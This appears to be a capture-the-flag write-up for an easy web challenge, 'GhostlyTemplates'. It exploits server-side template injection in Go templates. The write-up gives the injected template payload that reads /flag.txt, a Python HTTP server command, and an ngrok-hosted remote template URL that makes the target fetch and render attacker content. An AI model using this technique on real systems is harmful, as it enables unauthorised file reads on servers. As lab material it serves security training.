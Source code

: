 Challenge: GhostlyTemplates<br>
Category: Web<br>
Difficulty: easy<br>
Vulnerability: SSTI (Go Templates)<br>

<h1>Description</h1> The application fetches and renders Go templates specified by the page parameter when remote=true,
without any sanitization. By supplying a template that calls the built-in .OutFileContents function, you can read
flag.txt.

<ul>
    <li>Run the provided Python script, which creates an ngrok_payload folder and writes index.tpl containing:
        <pre><code>&lt;html&gt;&lt;body&gt;&lt;pre&gt;{{ .OutFileContents "/flag.txt" }}&lt;/pre&gt;&lt;/body&gt;&lt;/html&gt;</code></pre>
    </li>
    <li>Inside ngrok_payload, start a simple HTTP server on port 8000:
        <pre><code>python3 -m http.server 8000 &amp;</code></pre>
    </li>
    <li>Use ngrok to expose the local server publicly and grab the generated public URL.</li>
    <li>Build the exploit URL:
        <pre><code>http://&lt;target&gt;/view?page=&lt;ngrok_public_url&gt;/index.tpl&amp;remote=true</code></pre>
    </li>
    <li>When the application fetches and renders the remote template, the injected .OutFileContents call reads /flag.txt
        and embeds its contents in the HTTP response.</li>
    <li>The script then applies a regex (HTB\{.*?\}) to extract the flag from the response body and prints it to stdout.
    </li>
</ul>
